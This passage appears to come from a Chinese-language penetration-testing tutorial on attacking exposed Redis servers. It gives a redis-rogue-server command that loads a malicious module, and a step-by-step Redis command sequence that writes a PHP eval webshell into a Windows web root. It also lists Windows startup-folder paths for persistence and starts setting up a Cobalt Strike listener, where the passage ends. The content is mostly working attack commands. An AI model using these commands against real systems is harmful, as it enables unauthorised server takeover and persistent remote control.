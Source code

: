

```shell
python3 redis-rogue-server.py --rhost 192.168.51.146 --lhost 192.168.51.146 --exp=exp.so
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628608226504-a9981cc4-1dae-4c85-9468-39bd3f030305-20220415143203642.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628608233667-192fed23-55a2-43a8-88df-75cc7d9d0b9b-20220415143203584.png)

## Windows 获取权限

### Webshell

<a-checkbox checked>攻击成功的前提为：需要准确的知道Web目录位置</a-checkbox></br>

<a-checkbox checked>可通过 phpinfo 或者 网站报错得知</a-checkbox></br>

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628609553023-5e320f71-cea1-4ade-ad72-f1e0f51f7f11-20220415143203567.png)

这里测试的目标路径为：`C:\phpstudy_pro\WWW`

```php
192.168.0.123:6379> config set dir C:\phpstudy_pro\WWW
OK
192.168.0.123:6379> config set dbfilename shell.php
OK
192.168.0.123:6379> set test "<?php @eval($_POST['shell'])?>"
OK
192.168.0.123:6379> save
OK
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628609873998-b83c9a14-4307-45fb-8c50-f46b79d85f86-20220415143203676.png)

<a-checkbox checked>成功写入木马，并可连接控制服务器</a-checkbox></br>

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628609802263-2105839f-6645-428b-82d4-bbb75b3dadb9-20220415143203681.png)

### 启动项

攻击方法与写入Linux启动项相似

<a-checkbox checked>需要高权限账户</a-checkbox></br>

<a-checkbox checked>Windows 启动项目录为:</a-checkbox></br>

<a-checkbox checked>C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/startup/</a-checkbox></br>

<a-checkbox checked>C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp</a-checkbox></br>



首先创建 CobaltStrike监听
